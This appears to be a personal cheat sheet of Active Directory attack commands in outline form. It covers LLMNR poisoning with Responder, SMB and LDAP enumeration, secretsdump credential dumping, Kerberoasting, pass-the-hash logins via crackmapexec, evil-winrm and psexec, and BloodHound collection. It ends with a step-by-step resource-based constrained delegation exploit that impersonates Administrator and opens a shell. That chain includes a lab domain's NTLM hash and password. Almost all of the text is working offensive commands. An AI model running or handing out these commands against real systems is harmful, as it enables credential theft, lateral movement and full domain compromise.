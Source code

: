 - Non Credentialed
	- Responder
		- sudo responder -I ens224 -A
	- LDAP
	- SMB/ RPC
		- crackmapexec smb IP --users
		- enum4linux $IP
	- Secrets dump
		- Local
			- impacket-secretsdump -sam SAM -system SYSTEM LOCAL
- Credentialed
	- Kerberoast
		- sudo impacket-GetUserSPNs DOMAIN/USER:PASS -dc-ip DC-IP -request
	- Secrets dump
		- Password
			- impacket-secretsdump USER:PASS@$IP
		- NTLM Hash
			- impacket-secretsdump -hashes ':NTLM' USER@$IP
	- SMB
		- Password
			- crackmapexec smb $IP -u USER -p PASS --shares
		- NTLM Hash
			- crackmapexec smb $IP -u USER -H 'NTLM' --shares
		- If C$ writable
			- impacket-psexec DOMAIN/USER:'PASS'@$IP
	- Winrm
		- Password
			- crackmapexec winrm $IP -u USER -p PASS
		- NTLM Hash
			- crackmapexec winrm $IP -u USER -H 'NTLM'
		- Connect
			- Password
				- evil-winrm -i $IP -u USER -p PASS
			- NTLM
				- evil-winrm -i $IP -u USER -H NTLM
	- RDP
		- xfreerdp /v:$IP /u:USER /p:PASS
	- LDAP
		- Password
			- `ldapdomaindump ldap://$DC-IP -u 'DOMAIN\USER' -p 'PASS'
		- Certificates
			- certipy-ad find -username USER@DOMAIN.com -password 'PASS' -dc-ip $DC-IP -debug -scheme ldap
	- Bloodhound
		- Sharphound (must have shell)
			- Move exe to target
			- SharpHound.exe -c All --zipfilename FILENAME
			- Move zip to attack machine
	- Resourced Constrained Delegation Access
		- Check if exploitable
			- . ./PowerView.ps1
			- Check access:  
				- Get-DomainObject -Identity "dc=resourced,dc=local" -Domain resourced.local
					- ms-ds-machineaccountquota  is set to 10
			- DC must be over Win Server 12:
				- Get-DomainController
		- Exploit
			- Windows
				- . ./Powermad.ps1
				- `New-MachineAccount -MachineAccount FAKE01 -Password $(ConvertTo-SecureString '123456' -AsPlainText -Force) -Verbose
					- Returns information about the account (samaccountname and distinguished)
				- Get the SID - Get-DomainComputer fake01
					- Copy down the SID of account
				- Powerview Exploit method
					- `$ComputerSid = Get-DomainComputer fake01 -Properties objectsid | Select -Expand objectsid
					- `$SD = New-Object Security.AccessControl.RawSecurityDescriptor -ArgumentList "O:BAD:(A;;CCDCLCSWRPWPDTLOCRSDRCWDWO;;;$ComputerSid)"
					- `$SDBytes = New-Object byte[] ($SD.BinaryLength)
					- `$SD.GetBinaryForm($SDBytes, 0)
					- `Get-DomainComputer $targetComputer | Set-DomainObject -Set @{'msds-allowedtoactonbehalfofotheridentity'=$SDBytes}
					- `Get-DomainComputer $targetComputer -Properties 'msds-allowedtoactonbehalfofotheridentity'
						- Returns: {1, 0, 4, 128...}
					- ![[Pasted image 20240809113302.png]]
				- After PowerView
					- `.\Rubeus.exe hash /password:123456 /user:FAKE01$ /domain:domain.local
			- Linux
				- `impacket-addcomputer resourced.local/l.livingstone -dc-ip $DC-IP -hashes :19a3a7550ce8c505c2d46b5e39d6f808 -computer-name 'r4j3sh$' -computer-pass 'Rajesh@Mondal'
				- `rbcd.py -action write -delegate-to "RESOURCEDC$" -delegate-from "r4j3sh$" -dc-ip $DC-IP -hashes :19a3a7550ce8c505c2d46b5e39d6f808 resourced/l.livingstone
				- `impacket-getST -spn cifs/resourcedc.resourced.local -impersonate Administrator resourced/r4j3sh\\$:'Rajesh@Mondal' -dc-ip $DC-IP
				- `export KRB5CCNAME=$PWD/Administrator.ccache
				- klist
					- see cache ticket
					- Add the dc name to /etc/hosts
				- `impacket-psexec -dc-ip $DC-IP -k -no-pass resourcedc.resourced.local